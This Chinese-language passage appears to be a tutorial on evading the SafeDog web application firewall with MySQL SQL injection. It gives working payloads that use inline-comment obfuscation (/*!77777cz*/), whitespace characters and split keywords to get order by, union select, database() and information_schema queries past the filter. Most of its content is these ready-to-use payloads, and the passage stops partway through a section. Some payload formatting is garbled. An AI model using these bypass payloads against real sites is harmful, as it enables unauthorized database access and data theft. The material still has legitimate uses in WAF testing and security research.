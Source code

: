   

`lucy' order/*!77777cz*/by 1#`

![]()

##  **  
**

##  **union select (union后跟select会被拦截)**

 **  
**

‍ union select绕过可以直接加内联，因为安全狗看重的是关键字，要绕过只需要中间加些干扰就行。  
但union select中间需要放两个内联才行,之后的都是这样。

`-1' union /*!11440 select*/ 1,2#‍`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816090625.png)

  

`-1' union /!77777cz//!77777cz/ select 1,2#`

  

![]()

##  **user()、database() (关键词跟括号会被拦截)**  

 **  
**

以前版本的在 **database()** 中间插空格符已经不管用了

tip:Mysql中可以利用的空白字符有：%09,%0a,%0b,%0c,%0d,%20,%a0  
但可以用内联绕过,直接把()放到内联里，或者经过简单的变形就能过

`-1' union /*!77777cz*//*!77777cz*/ select database/*!77777a*/(),2#`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816090626.png)

##  **  
**

##  **select xxx from xxx (select 任意字符 from 后面跟任意字符等也会拦截)**  

 **  
**

这里将select table_name和from information_schema.tables单独进行测试，发现都不会被拦截

但是用select table_name,2 from information_schema.这种组合进行测试时就会被拦截。

